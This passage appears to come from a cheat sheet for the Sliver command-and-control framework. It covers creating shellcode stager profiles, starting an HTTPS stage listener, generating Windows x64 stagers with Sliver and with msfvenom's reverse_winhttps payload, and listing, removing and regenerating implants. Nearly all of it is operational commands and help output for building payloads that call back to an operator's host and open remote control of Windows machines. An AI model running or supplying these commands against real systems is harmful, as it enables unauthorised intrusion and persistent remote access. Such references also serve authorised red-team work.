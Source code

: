 `sliver > profiles new -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode`

`sliver > stage-listener -u https://<IP>:8080 -C <zlib | gzip | deflate9> -c /path/to/certificate.pem -k /path/to/key.pem -P -p stager-shellcode`

`sliver > generate stager -r https -L <IP> -l 8080 -a x64 -o windows -f raw -s sliver-https-stager.bin`

Or you can generate it with `msfvenom`

`$ msfvenom -p windows/x64/custom/reverse_winhttps lhost=<IP> lport=8080 luri=/shellcode.woff -f raw -o sliver-https-stager.bin`

### 4.4 - Implants

#### 4.4.1 - Help Menu

```
sliver > implants -h

List implant builds

Usage:
======
  implants [flags]

Flags:
======
  -a, --arch          string    filter builds by cpu architecture
  -f, --format        string    filter builds by artifact format
  -h, --help                    display help
  -d, --no-debug                filter builds by debug flag
  -b, --only-beacons            filter beacons
  -s, --only-sessions           filter interactive sessions
  -o, --os            string    filter builds by operating system
  -t, --timeout       int       command timeout in seconds (default: 60)

Sub Commands:
=============
  rm  Remove implant build
```

#### 4.4.2 - Usage

* **List the implant names**

`sliver > implants`

* **Remove implants**

`sliver > implants rm <implant_name>`

* **Regenerate implants**

`sliver > regenerate <implant_name>`

## 05 - Armory
